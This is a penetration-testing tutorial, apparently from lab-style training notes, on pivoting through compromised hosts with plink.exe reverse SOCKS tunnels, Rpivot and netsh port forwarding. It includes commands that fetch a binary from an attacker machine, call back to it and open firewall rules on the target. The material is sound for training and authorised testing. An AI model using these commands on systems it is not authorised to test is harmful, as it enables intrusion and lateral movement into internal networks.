

# 🛠️ Pivoting Tools

Not every engagement gives you a full Linux SSH server to work with. Sometimes you're stuck on a Windows box with no SSH client, or you need to pivot through a web server with nothing but Python. This section covers the essential alternative pivoting tools that fill those gaps.

!!! tip
    For sshuttle (the "poor man's VPN"), see the dedicated [sshuttle Deep Dive](sshuttle.md).

---

## 1. SSH for Windows: plink.exe

`plink.exe` is the command-line version of PuTTY. It provides SSH functionality on Windows hosts that don't have the native OpenSSH client installed — which is common on older Windows Server versions and hardened environments.

### Use Case

You've compromised a Windows machine that can reach the internal network. You want to create a reverse dynamic SOCKS proxy to pivot your tools into the internal network, but the Windows box doesn't have `ssh.exe`.


### Downloading plink.exe

Download the appropriate binary from the PuTTY website and transfer it to the compromised host:

```bash
# On Kali — host the binary
wget https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe
python3 -m http.server 8080
```

```powershell
# On the Windows target — download it
Invoke-WebRequest -Uri http://10.10.14.18:8080/plink.exe -OutFile C:\Users\Public\plink.exe
```

### Creating a Reverse Dynamic Port Forward

```cmd
# On the Windows pivot host
# Creates a reverse SOCKS proxy — traffic from Kali port 9050 routes through this Windows host
C:\Users\Public\plink.exe -ssh -D 9050 -R 9050:127.0.0.1:9050 -l kali -pw <password> 10.10.14.18
```

!!! warning
    **Host Key Prompt:** The first time plink connects to a host, it will ask to accept the SSH host key. In a non-interactive shell, this can hang. To automatically accept, pipe `echo y |` before the command:
    ```cmd
    cmd.exe /c echo y | C:\Users\Public\plink.exe -ssh ...
    ```

### plink.exe Cheatsheet

| Goal | Command |
| :--- | :--- |
| **Local Forward** | `plink.exe -ssh -L 8080:172.16.5.19:80 user@10.10.14.18` |
| **Remote Forward** | `plink.exe -ssh -R 8888:127.0.0.1:3389 user@10.10.14.18` |
| **Dynamic (SOCKS)** | `plink.exe -ssh -D 9050 user@10.10.14.18` |
| **Non-interactive** | `cmd.exe /c echo y \| plink.exe -ssh ...` |

---

## 2. Web Server Pivoting with Rpivot

Rpivot is a reverse SOCKS proxy tool that creates a SOCKS proxy on the server side and tunnels traffic through the client (pivot host) via HTTP. It's specifically designed for scenarios where you have a web shell or limited reverse connection but need to create a full SOCKS tunnel.

### Architecture


### Setup

**Clone Rpivot:**

```bash
git clone https://github.com/klsecservices/rpivot.git
```

### Step 1: Start the Server on Your Attack Machine

```bash
# On Kali — start the Rpivot server (this creates the SOCKS proxy)
cd rpivot
python2.7 server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-port 9050
```

- `--server-port 9999` — Port the client will connect to
- `--proxy-port 9050` — Local SOCKS proxy port for your tools

### Step 2: Transfer and Run the Client on the Pivot Host

```bash
# Transfer the rpivot directory to the pivot host
scp -r rpivot user@10.129.202.64:/tmp/

# On the pivot host — start the client
python2.7 /tmp/rpivot/client.py --server-ip 10.10.14.18 --server-port 9999
```

### Step 3: Use the SOCKS Proxy

Configure Proxychains to use `socks5 127.0.0.1 9050` and route your tools normally:

```bash
proxychains firefox http://172.16.5.135:80
```

### Rpivot Through a Corporate Proxy (NTLM Authentication)

If the pivot host can only reach the internet through an HTTP proxy with NTLM authentication:

```bash
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999 \
    --ntlm-proxy-ip 10.129.202.1 --ntlm-proxy-port 8080 \
    --domain CORP --username proxyuser --password 'ProxyPass123!'
```

---

## 3. Port Forwarding with Windows Netsh

`netsh` (Network Shell) is a built-in Windows command-line utility that can create port forwarding rules without installing any additional software. It's invaluable when you can't upload tools to the compromised Windows host.

### Use Case

You've compromised a Windows Server that acts as a gateway between two networks. You want to forward a port so that your attack machine can reach an internal service.



### Creating a Port Forward Rule

```cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=80 connectaddress=172.16.5.25
```

**Parameters:**

- `listenport` — The port the Windows host will listen on
- `listenaddress` — The IP on the Windows host to bind to (use `0.0.0.0` for all interfaces)
- `connectport` — The destination port on the internal target
- `connectaddress` — The internal target's IP

### Verifying the Rule

```cmd
netsh interface portproxy show all

# Expected output:
# Listen on ipv4:             Connect to ipv4:
# Address         Port        Address         Port
# --------------- ----------  --------------- ----------
# 10.129.42.198   8080        172.16.5.25     80
```

### Opening the Firewall

The Windows firewall will likely block the incoming connection. You need to add a rule:

```cmd
netsh advfirewall firewall add rule name="Forward Port 8080" protocol=TCP dir=in localport=8080 action=allow
```

### Accessing the Internal Service

From your Kali box:

```bash
# Access the internal web server through the Windows pivot
curl http://10.129.42.198:8080
```

### Cleaning Up

Always remove your port forwarding rules after the engagement:

```cmd
# Remove the specific rule
netsh interface portproxy delete v4tov4 listenport=8080 listenaddress=10.129.42.198

# Remove the firewall rule
netsh advfirewall firewall delete rule name="Forward Port 8080"

# Verify cleanup
netsh interface portproxy show all
```

---

## 4. Cheatsheet

| Tool | Scenario | Command |
| :--- | :--- | :--- |
| **plink.exe** | Dynamic SOCKS | `plink.exe -ssh -D 9050 user@kali` |
| **plink.exe** | Local Forward | `plink.exe -ssh -L <lport>:<target>:<rport> user@kali` |
| **plink.exe** | Remote Forward | `plink.exe -ssh -R <rport>:127.0.0.1:<lport> user@kali` |
| **Rpivot** | Server (Kali) | `python2.7 server.py --server-port 9999 --proxy-port 9050` |
| **Rpivot** | Client (Pivot) | `python2.7 client.py --server-ip <kali> --server-port 9999` |
| **Netsh** | Port Forward | `netsh interface portproxy add v4tov4 listenport=<lp> listenaddress=<lip> connectport=<rp> connectaddress=<rip>` |
| **Netsh** | Show Rules | `netsh interface portproxy show all` |
| **Netsh** | Firewall Allow | `netsh advfirewall firewall add rule name="<name>" protocol=TCP dir=in localport=<port> action=allow` |
| **Netsh** | Cleanup | `netsh interface portproxy delete v4tov4 listenport=<lp> listenaddress=<lip>` |
